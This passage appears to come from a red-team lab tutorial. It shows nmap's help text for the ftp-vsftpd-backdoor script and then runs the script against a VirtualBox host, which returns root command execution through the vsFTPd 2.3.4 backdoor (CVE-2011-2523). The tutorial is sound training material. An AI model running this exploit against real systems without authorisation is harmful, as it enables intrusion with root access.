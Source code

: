 ```python
```

<font color='red'>Red Team</font>
To learn more about an on-system NSE script, use the `--script-help` option.
```bash
nmap --script-help ftp-vsftpd-backdoor
```
```python
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-02 09:48 EST

ftp-vsftpd-backdoor
Categories: exploit intrusive malware vuln
https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html
  Tests for the presence of the vsFTPd 2.3.4 backdoor reported on 2011-07-04
  (CVE-2011-2523). This script attempts to exploit the backdoor using the
  innocuous <code>id</code> command by default, but that can be changed with
  the <code>exploit.cmd</code> or <code>ftp-vsftpd-backdoor.cmd</code> script
  arguments.

  References:

  * http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
  * https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
  * http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=CVE-2011-2523
```

Here, we will only run the `ftp-vsftpd-backdoor` NSE script against our target's FTP port (`-p21`). The results will essentially be the same as our `--script vuln` scan yet, without information about other ports or services.
```bash
nmap --script ftp-vsftpd-backdoor -p21 192.168.56.4
```
```python
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-02 09:50 EST
Nmap scan report for 192.168.56.4
Host is up (0.00065s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-vsftpd-backdoor:
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2011-2523  OSVDB:73573
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://osvdb.org/73573
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|_      http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
MAC Address: 08:00:27:30:63:69 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.54 seconds
```
